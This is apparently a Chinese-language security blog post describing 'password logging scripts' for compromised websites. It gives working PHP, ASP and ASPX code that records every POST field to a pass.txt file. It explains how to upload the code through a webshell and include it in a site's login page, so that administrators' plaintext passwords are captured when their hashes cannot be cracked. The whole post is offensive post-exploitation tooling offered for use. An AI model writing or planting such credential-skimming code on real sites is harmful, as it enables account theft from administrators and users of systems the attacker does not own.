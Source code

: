 ```yaml
---
title: "Web 密码记录脚本"
date: 2018-03-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php','asp','asp.net']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



写这些脚本主要是方便记录管理员的密码.

通常为 md5+salt 或者为 强密码 无法解密.

需要上传至 webshell.

<!--more-->

脚本均已在本地测试成功.

在对应的 login 文件上 include 即可.

默认保存在同目录下的 pass.txt 记录所有 POST 变量

## php

```
<?php
if (isset($_POST)){
	$f = fopen('pass.txt','a+');
	foreach ($_POST as $k=>$v){
		fwrite($f,$k.':'.$v."\r\n");
	}
	fclose($f);
}
?>
```

## asp

```
<%
dim fs,fname
set fs=Server.CreateObject("Scripting.FileSystemObject")
set fname=fs.OpenTextFile(server.mappath("pass.txt"),8,true)
For i = 1 To Request.Form.Count
fname.WriteLine(""&Request.Form.Key(i)&":" & Request.Form(Request.Form.Key(i)))
Next
fname.Close
set fname=nothing
set fs=nothing
%>
```

## aspx

```
<%@ Page Language="Jscript"%>
<%@ import namespace="System.IO" %>
<%
var filepath = Server.MapPath("pass.txt");
var sw = new StreamWriter(filepath, true);
for (var i = 0;i<Request.Form.Count;i++){
sw.WriteLine(Request.Form.Keys[i].ToString() + ":" + Request.Form[i].ToString());
}
sw.Close();
%>
```

php 包含为 `include 'config.php'`.

asp 与 asp.net 为 `<!-- #include file="config.aspx" -->`.